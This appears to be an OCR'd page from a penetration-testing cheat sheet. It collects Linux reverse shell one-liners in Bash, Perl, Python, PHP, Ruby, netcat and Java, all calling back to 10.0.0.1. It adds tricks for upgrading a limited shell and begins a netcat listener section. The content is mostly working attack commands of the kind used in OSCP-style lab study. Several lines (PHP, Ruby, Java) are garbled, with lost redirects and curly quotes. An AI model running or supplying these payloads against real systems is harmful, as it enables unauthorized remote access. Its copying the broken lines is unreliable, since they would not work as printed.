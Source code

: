     This brings us to the next section nicely:

    A collection of Linux reverse shell one-liners

    These one-liners are all found on pentestmonkey.net. This website also contains a bunch of other useful stuff!

    Bash

    bash -i >& /dev/tcp/10.0.0.1/8080 0>&1

    Perl

    perl -e ‘use Socket;$i=”10.0.0.1″;$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(“tcp”));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,”>&S”);open(STDOUT,”>&S”);open(STDERR,”>&S”);exec(“/bin/sh -i”);};’

    Python

    python -c ‘import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((“10.0.0.1”,1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([“/bin/sh”,”-i”]);’

    PHP

    php -r ‘$sock=fsockopen(“10.0.0.1”,1234);exec(“/bin/sh -i &3 2>&3”);’

    Ruby

    ruby -rsocket -e’f=TCPSocket.open(“10.0.0.1”,1234).to_i;exec sprintf(“/bin/sh -i &%d 2>&%d”,f,f,f)’

    Netcat with -e

    nc -e /bin/sh 10.0.0.1 1234

    Netcat without -e (my personal favourite)

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f

    Java

    r = Runtime.getRuntime()
    p = r.exec([“/bin/bash”,”-c”,”exec 5/dev/tcp/10.0.0.1/2002;cat &5 >&5; done”] as String[])
    p.waitFor()

    Src: https://medium.com/@hakluke/haklukes-ultimate-oscp-guide-part-3-practical-hacking-tips-and-tricks-c38486f5fc97

    Breaking Out of Limited Shells
    Credit to G0tmi1k for these (or wherever he stole them from!).
    The Python trick:
    python -c ‘import pty;pty.spawn(“/bin/bash”)’
    echo os.system(‘/bin/bash’)
    /bin/sh -i
    Src: https://highon.coffee/blog/linux-commands-cheat-sheet/

    Src: https://www.lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/

    #1. netcat

    Surprise!!! Nothing new here. Plain and simple. Fire up a listener on the attacker machine on a port which is reachable from the target and connect back to the listener with netcat. Looks like this.

